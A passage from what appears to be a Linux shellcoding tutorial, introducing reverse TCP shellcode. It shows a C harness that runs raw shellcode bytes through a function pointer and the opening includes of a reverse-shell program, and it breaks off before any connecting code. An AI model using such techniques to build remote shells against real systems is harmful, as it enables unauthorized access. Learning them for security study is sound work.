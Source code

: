 ## 9. linux shellcoding. Reverse TCP shellcode

![linux shellcoding](./images/14/2021-10-16_11-42.png){width="80%"}          

In the previous section about shellcoding, we spawned a regular shell. In this section my goal will be to write reverse TCP shellcode.      

### testing shellcode     

When testing shellcode, it is nice to just plop it into a program and let it run. We will use the same code as in the first post (`run.c`):           
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### reverse TCP shell

We will take the C code that starts the reverse TCP shell from one of my [previous](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) posts.          
So our base (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>
```